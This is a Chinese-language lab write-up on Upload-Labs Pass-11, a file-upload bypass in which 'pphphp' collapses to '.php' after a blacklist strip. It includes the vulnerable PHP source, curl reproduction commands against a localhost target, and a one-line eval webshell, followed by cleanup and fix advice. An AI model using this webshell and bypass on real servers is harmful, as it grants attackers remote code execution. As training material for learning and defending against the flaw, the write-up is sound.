



Upload-Labs Pass-11：后缀关键字双写绕过
Pass-11 看似正常接收文件，实际会把服务端黑名单中的字符串直接从文件名里删除。由于删除操作不会对处理后的结果再次检查，将 php 双写为 pphphp，可以让中间一次匹配被删除后，剩余字符重新组成可执行的 .php 后缀。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-11 |
| 目标 | http://127.0.0.1:8081/Pass-11/index.php |
| 漏洞类型 | 文件名关键字删除后未重新校验最终扩展名 |
| 上传字段 | upload_file |
| 绕过文件名 | 一句话木马.pphphp |
| 最终文件名 | 一句话木马.php |
| 验证结果 | 上传成功，HTTP 访问时 PHP 代码正常执行 |
二、页面与请求现象
Pass-11 的任务是上传一个 WebShell。页面本身没有明显报错，上传后还会生成图片预览标签，因此不能只看页面是否显示“上传成功”来判断结果。

在 Burp Repeater 中观察 multipart 请求，文件字段名为 upload_file，构造的文件名为 一句话木马.pphphp：

一句话木马.pphphp，服务端没有直接拒绝。响应 HTML 中出现以下图片标签：
<img src="../upload/一句话木马.php" width="250px" />
.pphphp 变成 .php。这个响应说明服务端对文件名做了处理后仍然调用了保存逻辑，但图片框本身只能证明文件路径被生成。是否存在可执行风险，还要继续访问上传结果验证。
三、漏洞根因
Pass-11 的关键源码如下：
$deny_ext = array("php", "php5", "php4", "php3", "php2",
"html", "htm", "phtml", "pht", "jsp", ...);
$file_name = trim($_FILES['upload_file']['name']);
$file_name = str_ireplace($deny_ext, "", $file_name);
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH.'/'.$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
}这段代码只把黑名单关键字当作普通字符串删除，没有提取最终扩展名交给白名单校验。对于 一句话木马.pphphp，php 只匹配中间那一段：
| 阶段 | 结果 |
|---|---|
| 原始文件名 | 一句话木马.pphphp |
str_ireplace("php", "", ...) | 删除中间的 php |
| 处理后文件名 | 一句话木马.php |
| 最终写入路径 | UPLOAD_PATH/一句话木马.php |
根本问题不是“黑名单写了但没生效”，而是过滤对象和最终安全判断对象不一致：程序删除敏感字符串后，直接把结果当成安全文件名使用，没有对最终值重新检查，也没有由服务端重写扩展名。
四、复现步骤
准备一个只返回固定标记的 PHP 探针：
printf '%s\n' '<?php echo "PASS11_EXEC_OK"; ?>' > pass11_probe.txt通过 curl 发送上传请求，把客户端文件名设置为 pass11_probe.pphphp：
curl.exe -sS -i \
-F 'upload_file=@pass11_probe.txt;filename=pass11_probe.pphphp' \
-F 'submit=上传' \
'http://127.0.0.1:8081/Pass-11/index.php'上传成功后，响应中应出现：
<img src="../upload/pass11_probe.php" width="250px" />随后向上传后的 PHP 文件发送 POST 参数 pass，触发探针中的固定输出：
curl.exe -sS -X POST \
--data-urlencode 'pass=echo "PASS11_EXEC_OK";' \
'http://127.0.0.1:8081/upload/pass11_probe.php'本次实测响应为：
PASS11_EXEC_OK.php，并且上传目录中的 PHP 文件被服务器执行。由此可以确认：Pass-11 的双写绕过不仅让文件落盘，还能形成服务端代码执行。五、清理上传文件
验证结束后，应记录实际最终文件名并按精确路径删除，不使用通配符或清空整个上传目录。本次测试文件的关键定位信息如下：
| 项目 | 内容 |
|---|---|
| 最终文件名 | 一句话木马.php |
| 文件大小 | 32 字节 |
| 内容 | <?php @eval($_POST['pass']); ?> |
删除精确目标后，再访问原 URL，应得到 404 Not Found。目录自带的 readme.php 应继续保留，借此确认没有误删其他文件。
六、修复建议
- 使用服务端扩展名白名单，并针对最终文件名进行校验，不能先删除关键字再无条件保存。
- 忽略客户端提供的文件名和扩展名，由服务端生成随机文件名，并按业务类型指定固定的安全后缀。
- 同时检查 MIME、文件头和实际文件内容；图片文件应重新解码和编码。
- 将上传目录移到 Web 根目录之外，或在 Web 服务器层关闭该目录的脚本执行权限。
- 限制 Web 服务账户权限，避免一个上传文件直接扩大为任意命令执行。
七、复盘
双写绕过的核心是“过滤器处理后的字符串”和“服务器最终使用的字符串”发生错位。Pass-11 将 pphphp 中的中间 php 删除后，剩余部分重新组成 php；服务端随后又信任这个最终文件名，最终把用户上传的内容当作 PHP 脚本执行。